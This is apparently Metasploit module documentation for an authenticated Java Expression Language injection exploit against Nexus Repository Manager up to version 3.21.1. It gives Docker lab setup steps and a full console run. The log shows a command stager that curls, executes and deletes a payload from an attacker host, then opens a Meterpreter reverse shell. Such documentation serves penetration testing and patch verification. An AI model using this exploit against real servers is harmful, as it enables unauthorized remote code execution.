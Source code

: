 ## Vulnerable Application

### Description

This module exploits a Java Expression Language (EL) injection in
Nexus Repository Manager versions up to and including 3.21.1 to
execute code as the Nexus user.

This is a post-authentication vulnerability, so credentials are
required to exploit the bug. Any user regardless of privilege level
may be used.

Tested against 3.21.1-01.

### Setup

Install Docker using the [official instructions](https://docs.docker.com/get-docker/).
Follow the instructions for your platform and distribution (if using
Linux). If you're using OS X, you may prefer to `brew cask install docker`
after installing [Homebrew](https://brew.sh/).

#### Starting the application

Run `docker run -d -p 8081:8081 --name nexus sonatype/nexus3:3.21.1`
(note the added `3.21.1` tag) as per Sonatype's [Docker Hub instructions](https://hub.docker.com/r/sonatype/nexus3/#running).

Open a browser and go to <http://localhost:8081/>. If you're greeted by
the Nexus page, then the application has started successfully.

#### Changing the admin user's password

Run `docker exec nexus cat /nexus-data/admin.password` to get the admin
password. Sign in as the `admin` user with the password you just
retrieved.

Follow the prompts in the wizard. Change the password to something you
can remember. You can click through the anonymous access question, since
it's not relevant to the exploit. You don't need to enable the feature.

If you have trouble getting the password change to stick, wait a couple
minutes or browse to <http://localhost:8081/#user/account> and change it
again.

#### Adding an unprivileged user

1. Browse to <http://localhost:8081/#admin/security/users>
2. Click `Create local user` on the current page
3. Fill in all the required fields
  * You can set a fake e-mail address like `user@example.com`
  * Make sure you set a password you can remember, since you'll be using
    it to test the module
  * It is **critical** that you set the `Status` field to `Active` and
    move the `nx-anonymous` role to the `Granted` column
4. Click `Create local user` on the current page
5. Sign out the `admin` account and test your new login

After completing these steps, you may now test the module.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets Nexus Repository Manager versions <= 3.21.1.

## Options

### USERNAME

Set this to a valid Nexus username. It can be an unprivileged user, but
it defaults to `admin` because that is a known account.

### PASSWORD

Set this to a valid Nexus password. No default, since the `admin` user's
password is randomized on install.

## Scenarios

### Nexus Repository Manager 3.21.1-01 from [Docker Hub](https://hub.docker.com/r/sonatype/nexus3)

```
msf > use exploit/linux/http/nexus_repo_manager_el_injection
msf exploit(linux/http/nexus_repo_manager_el_injection) > options

Module options (exploit/linux/http/nexus_repo_manager_el_injection):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Nexus password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8081             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Nexus username
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Nexus Repository Manager <= 3.21.1


msf exploit(linux/http/nexus_repo_manager_el_injection) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(linux/http/nexus_repo_manager_el_injection) > set password admin
password => admin
msf exploit(linux/http/nexus_repo_manager_el_injection) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf exploit(linux/http/nexus_repo_manager_el_injection) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. Nexus 3.21.1-01 is a vulnerable version.
[*] Executing command stager for linux/x64/meterpreter_reverse_tcp
[*] Logging in with admin:admin
[+] Logged in with NXSESSIONID=8b6fd077-1830-4e2b-90e8-2997d260b5c0;
[*] Using URL: http://0.0.0.0:8080/t6NXrxF
[*] Local IP: http://192.168.1.3:8080/t6NXrxF
[*] Generated command stager: ["curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF", "chmod +x /tmp/hgzeytII", "/tmp/hgzeytII", "rm -f /tmp/hgzeytII"]
[*] Executing command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[+] Successfully executed command: curl -so /tmp/hgzeytII http://192.168.1.3:8080/t6NXrxF
[*] Client 192.168.1.3 (curl/7.61.1) requested /t6NXrxF
[*] Sending payload to 192.168.1.3 (curl/7.61.1)
[*] Command Stager progress -  50.00% done (54/108 bytes)
[*] Executing command: chmod +x /tmp/hgzeytII
[+] Successfully executed command: chmod +x /tmp/hgzeytII
[*] Command Stager progress -  70.37% done (76/108 bytes)
[*] Executing command: /tmp/hgzeytII
[+] Successfully executed command: /tmp/hgzeytII
[*] Command Stager progress -  82.41% done (89/108 bytes)
[*] Executing command: rm -f /tmp/hgzeytII
[+] Successfully executed command: rm -f /tmp/hgzeytII
[*] Command Stager progress - 100.00% done (108/108 bytes)
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:53094) at 2020-04-07 19:25:38 -0500
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 282665c16215 (uid=200, gid=200, euid=200, egid=200)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Red Hat Enterprise Linux 8 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
